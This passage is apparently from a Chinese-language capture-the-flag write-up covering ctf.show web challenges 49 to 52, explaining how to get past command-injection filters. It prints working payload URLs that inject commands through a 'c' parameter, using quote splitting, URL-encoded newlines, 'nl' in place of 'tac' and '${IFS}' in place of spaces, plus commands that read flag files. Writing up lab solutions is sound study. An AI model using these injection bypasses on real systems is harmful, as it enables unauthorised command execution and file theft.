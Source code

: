 cut

```bash
cut -b 1-99 flag.txt # 提取每一行的第1-99个字节
cut -d$'\n' -f1-99 flag.txt # 按换行符分割, 查看第1-99个字段
```

awk

```bash
awk -F$'\n' '{print $1}' flag.txt # 按换行符分割字段, 依次打印
```

curl

```bash
curl file:///home/exp10it/flag.txt # 需要知道绝对路径
```

## web49

又过滤了 `%`

但这里是 url 编码, 所以其实没有效果...

之前的 payload 依然可以绕过

## web50

过滤了 `[TAB]` (就是 `%09`) 和 `&`

payload

`http://8c5d99d3-52cf-47d3-903c-3a6bd680e458.challenge.ctf.show/?c=tac<fla''g.php%0a`

## web51

tac 被过滤了

用 nl 绕过

## web52

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081533292.png)

过滤了 `<` `>`, 但是把 `$` 的过滤取消了

使用 `${IFS}` 绕过

```
http://3a66b6d9-61ce-41d4-a221-55d6fe242df2.challenge.ctf.show/?c=nl$IFS/fla''g.php%0a
http://3a66b6d9-61ce-41d4-a221-55d6fe242df2.challenge.ctf.show/?c=nl${IFS}fla''g.php%0a
```

另外还有 `nl$IFS$9fla''g.php`, 但是数字被过滤了

然后发现是假的 flag... 真的在根目录下
